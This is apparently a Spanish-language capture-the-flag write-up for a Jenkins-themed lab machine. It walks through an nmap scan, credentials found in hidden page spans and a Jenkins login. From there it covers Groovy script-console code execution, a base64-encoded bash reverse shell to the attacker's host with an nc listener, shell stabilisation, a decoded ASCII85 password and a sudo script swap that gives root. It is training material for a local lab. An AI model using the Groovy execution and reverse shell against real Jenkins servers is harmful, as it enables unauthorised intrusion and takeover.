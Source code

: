 Fecha: 19/09/2024

Comienzo escaneando la máquina:
```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

![](imágenes/Pasted%20image%2020240918005959.png)

Inspeccionando la página web en el puerto 80, encuentro 3 "spans" ocultos (`class = "hidden"`). Una de ellas es, posiblemente, el "nombre de dominio" de la página: "`jenhack.hl`". Los otros dos podrían ser un nombre de usuario y contraseña. `jenkins-admin`:`cassandra` 

![](imágenes/Pasted%20image%2020240918132733.png)

Paso ahora al puerto 443. Encuentro una pantalla de login de jenkins. Al probar con estas credenciales, me da un error de servidor, así que probaré en el puerto 8080. Obtengo acceso al panel de administración: 

![](imágenes/Pasted%20image%2020240918132901.png)

Investigando en [hacktricks](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security), encuentro varios trucos que puedo hacer:

Buscar más usuarios entrando en `/asynchPeople/` -> sin éxito, solo está el usuario de administración:
![](imágenes/Pasted%20image%2020240918133231.png)

Ejecutar código remoto con un "Groovy Script", entrando en `/script`. 
![](imágenes/Pasted%20image%2020240918133321.png)

Aquí podré ejecutar comandos de la siguiente forma:
```groovy
def process = "sh -c <comando>".execute()
println("Salida: ${process.text}")
```

En la misma página encuentro una forma de hacerme una reverse shell: 
```bash
# Obtener el base64 de lo que queremos ejecutar:
echo "bash -c 'bash -i >& /dev/tcp/172.17.0.1/9001 0>&1'" | base64 

# En la script console:
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzkwMDEgMD4mMScK}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
# En mi máquina atacante:
nc -lvnp 9001
```

Trato la TTY: 
```bash
# Empezando desde la reverse shell:
script /dev/null -c bash

Control Z 

stty raw -echo; fg

reset xterm

export TERM=xterm
```

Al no encontrar nada que hacer con permisos SUID y no poder ejecutar sudo -l por no saber la contraseña, miro /etc/passwd:
![](imágenes/Pasted%20image%2020240918134837.png)

Aquí encuentro un usuario, jenkhack. Miraré que ficheros cuyos nombres le hagan referencia: 
```bash
find / -name "jenkhack" 2>/dev/null
```

![](imágenes/Pasted%20image%2020240919130322.png)

Parece un usuario y contraseña. Como la contraseña no funciona, imagino que está cifrada. Utilizo el identificador de cifrado de [dcode.fr](https://www.dcode.fr/identificador-cifrado) y encuentro que se trata de un "ASCII85 Encoding"

![](imágenes/Pasted%20image%2020240919130714.png)

Uso su decoder y el resultado es `jenkinselmejor`. Una vez inicié sesión como jenkhack, comprobé sus permisos:
![](imágenes/Pasted%20image%2020240919131110.png)

Pensé que con hacer `sudo /usr/local/bin/bash` ya estaría, pero resulta que no es un bash sino un script. 

![](imágenes/Pasted%20image%2020240919131216.png)

Miro el contenido del script y encuentro esto:
![](imágenes/Pasted%20image%2020240919131243.png)

Elimino ese fichero y creo uno nuevo para que me ejecute una shell. 


![](imágenes/Pasted%20image%2020240919132123.png)

Tras darle permisos y ejecutar el script con sudo, ya somos root. 

![](imágenes/Pasted%20image%2020240919132054.png)